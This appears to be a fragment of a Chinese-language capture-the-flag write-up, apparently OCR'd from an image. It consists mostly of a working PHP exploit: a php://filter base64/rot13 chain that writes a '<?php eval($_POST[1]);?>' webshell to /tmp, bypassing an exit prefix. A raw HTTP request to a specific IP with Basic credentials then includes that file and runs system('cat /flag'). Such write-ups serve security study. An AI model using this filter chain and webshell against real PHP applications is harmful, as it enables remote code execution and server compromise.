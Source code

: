 `$dieORexit --convert.base64-encode|string.rot13|convert.base64-decode--> something else`

`$payload   --convert.base64-encode|string.rot13|convert.base64-decode--> '<?php eval($_POST[1]);?>'` 

最后的payload:
`'path' => 'php://filter/write=convert.base64-encode|string.rot13|convert.base64-decode/resource=../../../../../../../../../../../../../../../../tmp/t'.urldecode("%09%0Fc%9DCm0%A3.%A0%FBq%2BS%82%1FQ%28d%8D%1C%06o%3E")`

```
POST /public/nationalsb/login.php HTTP/1.1
Host: 8.208.102.48
Authorization: Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

file=%2ftmp%2ft%09%0Fc%9DCm0%A3.%A0%FBq%2BS%82%1FQ%28d%8D%1C%06o%3E743f45ea3d60a1190e3f723595050ca2.php&1=system('cat /flag');
```